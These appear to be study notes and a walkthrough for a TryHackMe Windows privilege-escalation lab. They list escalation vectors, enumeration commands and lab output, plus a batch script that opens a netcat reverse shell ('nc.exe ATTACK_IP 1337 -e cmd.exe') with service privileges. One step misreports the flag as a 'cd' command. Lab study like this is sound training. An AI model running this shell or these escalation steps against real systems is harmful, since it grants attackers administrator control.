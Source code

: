 # They Lost the Plan!


## Privileges
- A privileged account - Administrator on Windows or Root on Linux - will allow you to access any file on the system
    - An account with lower privileges will make it more difficult
- Windows account types
    - Domain Administrators - the highest account level in an enterprise alone with Enterprise Administrators
        - Can access and manage all accounts
    - Services - Accounts used by software to perform their tasks such as backups or antivirus scans
    - Domain users - Accounts used by employees, have just enough privileges to do their jobs
    - Local accounts - only valid on the local system anc cannot be used over the domain
- Accounts can be easily managed with groups

## Windows Privilege Escalation Vectors
- Stored Credentials - Important credentials can be saved in files by user or in config files of an application
- Windows Kernel Exploit - The windows installed on the system can have a known vulnerability that can be exploited
- Insecure File/Folder Permissions - In some situations, even a low privileged user can have read or write privileges over files and folders that contain sensitive info
- Insecure Service Permissions - Low privileged users may have rights over services
- DLL Hijacking: Applications use DLL files to support their execution. You can think of these as smaller applications that can be launched by the main application. Sometimes DLLs that are deleted or not present on the system are called by the application. This error doesn't always result in a failure of the application, and the application can still run. Finding a DLL the application is looking for in a location we can write to can help us create a malicious DLL file that will be run by the application. In such a case, the malicious DLL will run with the main application's privilege level. If the application has a higher privilege level than our current user, this could allow us to launch a shell with a higher privilege level.
- Unquoted Service Path - If the executable path of a service contains a space and is not enclosed within quotes, we can introduce maclicious executables to run instead of the intended executable
- Always Install Elevated - Windows applications can be installed using Windows Installer (MSI packages) files. Windows can be configured with the "AlwaysInstallElevated" policy, which allows the installation process to run with administrator privileges without requiring the user to have these privileges
    - If "AlwaysInstallElevated" is configured, a malicious executable packages as an MSI file could be run to obtain a higher privilege level
- Other software

## Initial Information Gathering
- Important step in privilige escalation because it's how you find potential attack vectors
- There are automated scripts available to do it for you
- Key enumeration points
    - Users on the target system
        - `net users` shows users on the system
    - OS version
        - `systeminfo | findstr /B /C: "OS Name"/C: "OS Version"`
        - This should be used to do further research
    - Installed Services
        - `wmic service list` lists services installed

## Exploitation
- Follow the instructions on tryhackme
- This code is used to create a reverse shell with admin privileges
```
@echo off
C:\Users\McSkidy\Downloads\nc.exe ATTACK_IP 1337 -e cmd.exe
```

## Exercise
1. Use `net users` to find pepper
```
C:\Program Files (x86)\Iperius Backup>net users
net users

User accounts for \\THE-GRINCH-HACK

-------------------------------------------------------------------------------
Administrator            Alabaster                DefaultAccount           
Guest                    McSkidy                  pepper                   
Rudolph                  sugarplum                thegrinch                
WDAGUtilityAccount       
The command completed successfully.
```

2. Use `systeminfo` to find `10.0.17763 N/A Build 17763`
```
C:\Program Files (x86)\Iperius Backup>systeminfo                                                   
systeminfo

Host Name:                 THE-GRINCH-HACK
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          EC2
Registered Organization:   Amazon.com
Product ID:                00430-00000-00000-AA262
Original Install Date:     3/17/2021, 2:59:06 PM
System Boot Time:          12/14/2021, 9:45:44 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.2.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Coordinated Universal Time
Total Physical Memory:     4,096 MB
Available Physical Memory: 2,962 MB
Virtual Memory: Max Size:  4,800 MB
Virtual Memory: Available: 3,766 MB
Virtual Memory: In Use:    1,034 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 27 Hotfix(s) Installed.
                           [01]: KB4601555
                           [02]: KB4470502
                           [03]: KB4470788
                           [04]: KB4480056
                           [05]: KB4486153
                           [06]: KB4493510
                           [07]: KB4499728
                           [08]: KB4504369
                           [09]: KB4512577
                           [10]: KB4512937
                           [11]: KB4521862
                           [12]: KB4523204
                           [13]: KB4535680
                           [14]: KB4539571
                           [15]: KB4549947
                           [16]: KB4558997
                           [17]: KB4562562
                           [18]: KB4566424
                           [19]: KB4570332
                           [20]: KB4577586
                           [21]: KB4577667
                           [22]: KB4587735
                           [23]: KB4589208
                           [24]: KB4598480
                           [25]: KB4601393
                           [26]: KB5000859
                           [27]: KB5001568
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.212.95
                                 [02]: fe80::a87a:67bf:5efd:d66d
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

3. Use the services tab of task manager to find IperiusSvc
4. Right click on the service in task manager > go to details > right click on IperiusService.exe > open file location to find `C:\Program Files (x86)\Iperius Backup\IperiusService.exe`
5. Run `whoami`
```
C:\Program Files (x86)\Iperius Backup>whoami
whoami
the-grinch-hack\thegrinch
```

6. Use `cd C:\Users\thegrinch` to move into the grinch's directory and look at the contents of all the folders. We find flag.txt and Schedule.txt inside the Documents folder. Use `more flag.txt` to find `cd C:\Users\thegrinch`
7. Use `more Schedule.txt` to find jazzercize
```
C:\Users\thegrinch\Documents>more Schedule.txt
more Schedule.txt
Daily Schedule:
4:00 - wallow in self-pity 
4:30 - stare into the abyss 
5:00 - solve world hunger, tell no one
5:30 - jazzercize
6:30 - dinner with me. I can�t cancel that again 
7:00 - wrestle with my self-loathing
```
